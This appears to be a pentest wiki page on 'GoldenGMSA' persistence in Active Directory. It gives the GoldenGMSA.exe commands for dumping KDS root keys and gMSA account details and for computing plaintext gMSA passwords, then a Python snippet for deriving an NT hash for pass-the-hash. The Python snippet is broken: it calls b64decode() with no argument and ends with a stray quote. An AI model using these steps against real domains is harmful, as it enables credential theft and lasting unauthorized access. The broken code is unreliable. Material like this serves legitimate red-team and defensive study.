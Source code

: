 ## Theory
**What is gMMSA account**

Within an Active Directory environment, service accounts are often created and used by different applications. These accounts usually have a password that is rarely updated. To address this issue, it is possible to create Group Managed Service Accounts (gMSA), which are managed directly by AD, with a strong password and a regular password rotation.

The password of a gMSA account can legitimately be requested by authorized applications. In that case, an LDAP request is made to the domain controller, asking for the gMSA account's `msDS-ManagedPassword` attribute's value.

The "GoldenGMSA" persistence lies in the fact that the KDS root keys used for gMSA password calculation don't change (at least not without some admin intervention or custom automation). Once they are exfiltrated and saved, any gMSA account password can be calculated since the additional values needed can be obtained by any low-privileged user.

## Exploit
### Obtain persistence
Once an AD environment is compromised, acquiring the "GoldenGMSA" persistence requires to dump the KDS root keys.
=== "Windows"
    The KDS (Key Distribution Service) root keys can be exfiltrated from the domain with high-privileged access with [GoldenGMSA](https://github.com/Semperis/GoldenGMSA) (C#).

    Without the `--forest` argument, the forest root domain is queried, hence requiring Enterprise Admins or Domain Admins privileges in the forest root domain, or SYSTEM privileges on a forest root Domain Controller.
    ```bash
    GoldenGMSA.exe kdsinfo
    ```
    With the `--forest` argument specifying the target domain or forest, SYSTEM privileges are required on the corresponding domain or forest Domain Controller. In case a child domain is specified, the parent domain keys will be dumped as well.
    ```bash
    GoldenGMSA.exe kdsinfo --forest child.lab.local
    ```
### REtrieving gMSA passwords
Later on, the attacker can then, with low-privileged access to the domain:

- dump some information relative to the gMSA account to retrieve the password for
- use those elements to calculate the gMSA password
#### Account information dump
=== "Windows"
    In addition to the `KDS root` keys, the following information, relative to a gMSA, need to be dumped in order to compute its password:

    - SID (Security IDentifier)
    - RootKeyGuid: indicating what KDS root key to use
    - Password ID: which rotates regularly

    The information can be dumped with low-privilege access to AD with [GoldenGMSA](https://github.com/Semperis/GoldenGMSA) (C#).
    ```bash
    GoldenGMSA.exe gmsainfo
    ```
    In order to dump the necessary information of a single gMSA, its SID can be used as filter with the `--sid` argument.
    ```bash
    GoldenGMSA.exe gmsainfo --sid "S-1-5-21-[...]1586295871-1112"
    ```
#### Password calculation
=== "Windows"
    Given a gMSA SID, the corresponding KDS root key (matching the RootKeyGuid obtained beforehand), and the Password ID, the actual plaintext password can be calculated with GoldenGMSA (C#)
    ```bash
    GoldenGMSA.exe compute --sid "S-1-5-21-[...]1586295871-1112" --kdskey "AQA[...]jG2/M=" --pwdid "AQAAAEtEU[...]gBsAGEAYgBzAAAA"
    ```
    Since the password is randomly generated and is not intended to be used by real users with a keyboard (but instead by servers, programs, scripts, etc.) the password is very long, complex and can include non-printable characters. GoldenGMSA will output the password in base64.

    In order to use the password, its MD4 (i.e. NT) hash can be calculated, for pass the hash.
    ```bash
    import base64
    import hashlib

    b64 = input("Password Base64: ")

    print("NT hash:", hashlib.new("md4", base64.b64decode()).hexdigest())'
    ```
